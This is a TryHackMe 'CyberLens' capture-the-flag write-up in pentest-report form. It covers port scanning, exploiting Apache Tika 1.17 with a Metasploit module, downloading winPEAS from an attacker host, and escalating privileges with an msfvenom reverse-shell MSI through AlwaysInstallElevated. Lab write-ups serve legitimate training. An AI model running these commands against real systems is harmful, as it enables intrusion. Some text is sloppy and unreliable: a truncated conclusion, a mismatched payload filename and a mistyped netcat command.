# CyberLens — TryHackMe Penetration Testing Report

## 1. Executive Summary

This assessment was performed against the intentionally vulnerable **CyberLens** machine provided by TryHackMe.

The assessment identified several externally accessible Windows services, including HTTP, SMB, RPC, RDP, and WinRM. An additional web service was discovered on TCP port **61777**, identified as **Jetty 8.y.z-SNAPSHOT**.

The assessment resulted in successful initial access and subsequent privilege escalation within the authorized laboratory environment.

---

## 2. Scope & Environment

| Item            | Details                 |
| --------------- | ----------------------- |
| Platform        | TryHackMe               |
| Lab             | CyberLens               |
| Assessment Type | Penetration Testing     |
| Environment     | Authorized Training Lab |
| Target          | `<TARGET_IP>`           |

> All testing was performed against the authorized TryHackMe laboratory environment.

---

# 3. Reconnaissance

## 3.1 Port & Service Enumeration

An Nmap scan was performed to identify open ports, running services, and service versions.

```bash
nmap -sV -O <TARGET_IP>
```

### Evidence



The target was identified as being online with six TCP services exposed.

---

# 4. Web Application Enumeration

## 4.1 Information Disclosure in Page Source

Inspection of the application's page source revealed the following client-side request:

```javascript
fetch("http://cyberlens.thm:61777/meta
```



This exposed the existence of an additional service operating on TCP port **61777**.
---

## 4.2 TCP/61777 Service Enumeration

A targeted Nmap scan was performed:

```bash
nmap -sV -p 61777 <TARGET_IP>
```

The service was identified as:



The finding exposed Jetty Service and webpage exposed the Server Version.


```text
Apache Tika 1.17
```



---

# 5. Vulnerability Identification

## 5.1 Metasploit Module for Apache Tika

While further enumerations, Metasploit module was found for the exposed Apache Tika Server.



---

# 6. Exploitation

## 6.1 Header Command Injection

The module targets an Apache Tika-related vulnerability affecting Windows systems through HTTP processing.

```msf
use exploit/windows/http/apache_tika_jp2_jscript
show options
run
```

## 6.2 Initial Access

After running the uploaded module, a meterpreter shell was formed and target was exploited.
The obtained shell provided the initial foothold on the target.



---

# 7. Post-Exploitation

After obtaining initial access, local enumeration was performed to understand the compromised environment and identify potential privilege escalation vectors.



The User flag was successfully located during post-exploitation.



---

# 8. Privilege Escalation

## 8.1 winPEAS 

For Local Privilege Escalation enumeration winPEAS was used




Python Server was hosted on Attack Machine and winPEASx64.exe was download to Target machine:

```on target machine
Invoke-WebRequest -Uri "http://:<attack ip><port>/winPEASx64.exe" -Outfile "win.exe"
win.exe
```

After running win.exe on target machine, Always Install Elevated was identified and investigated as a potential privilege escalation vector.



---

## 8.2 Always Install Elevated Technique

MsfVenom was used to create .msi formated payload for privilege escalation and it was downloaded on target machine via same method as winPEAS.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=6666 -f msi > pawn.msi
nc lvnp 6666
```

Listener was also started on 6666 port on attacker machine.



```cmd
msiexec /quiet /qn /i pawned.msi
```

---

## 8.3 Privilege Escalation Evidence

The technique successfully resulted in elevated privileges on the target and reverse connection was established on listener port 6666.



Further admin flag was also found while enumeration.



This demonstrated that the identified Always Install Elevated configuration could be abused to obtain elevated access.

---

# 9. Attack Chain

The complete attack path can be summarized as:

# 10. Attack Path

The observed assessment flow can be summarized as:

```text
Target Discovery
      |
      v
Nmap Enumeration
      |
      +-------------------------------+
      |                               |
      v                               v
Apache :80                    Windows Services
      |                       135/139/445
      |                       3389 / 5985
      v
Web Application
      |
      v
Page Source Inspection
      |
      v
Port 61777 Discovered
      |
      v
Jetty 8.y.z-SNAPSHOT
      |
      v
Apache Tika Exploitation
      |
      v
Windows Access
      |
      v
winPEAS Enumeration
      |
      v
Payload Generation
      |
      v
Privilege Escalation completed
```

---


| ID    | Finding                                                    | Severity  | Status                                                         |
| ----- | ---------------------------------------------------------------------------------------------------------------------- |
| CL-01 | Multiple externally accessible Windows services            | Medium    | Confirmed                                     |
| CL-02 | Non-standard Jetty service exposed on TCP/61777            | Medium    | Confirmed                                     |
| CL-03 | Service/endpoint information disclosed through page source | Low       | Confirmed                                     |
| CL-04 | Apache Tika exploitation path                              | Critical* | Confirmed                                     |
| CL-05 | Post-exploitation code execution capability                | Critical* | Confirmed                                     |

---

# 11. Recommendations

## 11.1 Patch and Update Vulnerable Components

Identify the exact Apache Tika version and update it to a currently supported release.

Remove obsolete or snapshot components from production environments.

## 11.2 Restrict TCP/61777

If the Jetty service is not required externally:

* Bind it to localhost where appropriate.
* Restrict access through the host firewall.
* Remove unnecessary exposure.
* Place administrative/internal services on a segmented network.

## 11.3 Harden Windows Network Services

Review exposure of:

* SMB/NetBIOS
* RDP
* WinRM
* RPC

Restrict these services to trusted management networks wherever possible.

## 11.4 Apply Network Segmentation

Separate externally accessible web services from management interfaces such as:

* RDP
* WinRM
* SMB
* RPC

## 11.5 Implement Application Security Controls

Review the application for:

* Input validation
* Secure file-processing mechanisms
* Authentication and authorization
* Secure handling of metadata endpoints
* Unnecessary client-side disclosure of internal services

## 11.6 Monitor for Exploitation

Enable logging and monitoring for:

* Apache/Jetty requests
* Windows process creation
* PowerShell execution
* MSI installations
* WinRM activity
* RDP connections
* Suspicious outbound connections

## 11.7 Review Local Privilege Configuration

Use the results of the winPEAS assessment to identify and remediate:

* Weak service permissions
* Excessive user privileges
* Insecure scheduled tasks
* Writable privileged binaries
* Weak file permissions
* Exposed credentials
* Insecure registry configuration

---

# 14. Conclusion

The CyberLens assessment identified a Windows host exposing several network services, with the primary web application hosted on Apache HTTP Server and an additional Jetty-based service available on TCP/61777.

Inspection of the web application's source disclosed the additional service endpoint. Enumeration subsequently identified the Jetty service as `Jetty 8.y.z-SNAPSHOT`. An Apache Tika-related Metasploit module was then used during the exploitation phase.

Post-exploitation activity included transferring and executing winPEAS and preparing a Windows MSI reverse-shell payload.

The available evidence demonstrates a meaningful attack surface and a potential path from web-service reconnaissance to Windows code execution. However, successful exploitation and reverse-shell establishment.
---

# 13. Tools Used

* Nmap
* Netcat
* Metasploit Framework
* Linux command-line utilities

---

